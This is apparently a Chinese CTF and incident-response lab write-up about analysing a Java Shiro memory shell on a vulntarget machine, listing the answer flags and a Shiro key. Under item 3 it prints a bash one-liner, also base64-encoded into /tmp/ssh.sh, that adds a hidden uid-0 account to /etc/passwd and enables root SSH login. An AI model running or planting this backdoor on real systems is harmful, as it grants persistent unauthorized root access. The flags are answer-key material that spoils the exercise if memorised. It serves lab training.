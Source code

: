 # 第八章-内存马分析-Java02-Shiro

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
靶机来源 @vulntarget  
靶机可以采集本地搭建或者是云端调度  
搭建链接 https://github.com/crow821/vulntarget  
    本题不提供靶机账户密码请根据nacos 获取的shirokey 攻击靶机后登录应急  
```  
## 0x01  
利用上一题获取的`shiro key`攻击后进行应急  
1、将 shiro 的 key 作为 flag 提交  
`flag{KduO0i&#43;zUIMcNNJnsZwU9Q==}`  
2、隐藏用户后删除，并将隐藏用户名作为 flag 提交  
`8088`运行着`Shiro`服务  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081527792.png)
`cat /etc/passwd`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081528896.png)
`flag{guest}`  
3、分析app.jar文件是否存在后门，并把后门路由名称作为 flag 提交  
添加一个用户利用`ssh`进行连接  
```bash  
#!/bin/bash  
  
echo &#34;system:adk6oNRwypFwA:0:0:eval_to_root:/root:/bin/bash&#34; &gt;&gt; /etc/passwd &amp;&amp; echo &#34;PermitRootLogin yes&#34; &gt;&gt; /etc/ssh/sshd_config &amp;&amp; /etc/init.d/ssh restart  
```  
`echo IyEvYmluL2Jhc2gKCmVjaG8gInN5c3RlbTphZGs2b05Sd3lwRndBOjA6MDpldmFsX3RvX3Jvb3Q6L3Jvb3Q6L2Jpbi9iYXNoIiA&#43;PiAvZXRjL3Bhc3N3ZCAmJiBlY2hvICJQZXJtaXRSb290TG9naW4geWVzIiA&#43;PiAvZXRjL3NzaC9zc2hkX2NvbmZpZyAmJiAvZXRjL2luaXQuZC9zc2ggcmVzdGFydA==|base64 -d &gt; /tmp/ssh.sh`  
连接`ssh system/admin123`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406081755054.png)
`flag{/exec}`  
4、分析app.jar文件，将后门的密码作为 flag 提交  
`flag{cmd}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E5%85%AB%E7%AB%A0-%E5%86%85%E5%AD%98%E9%A9%AC%E5%88%86%E6%9E%90-java02-shiro/  

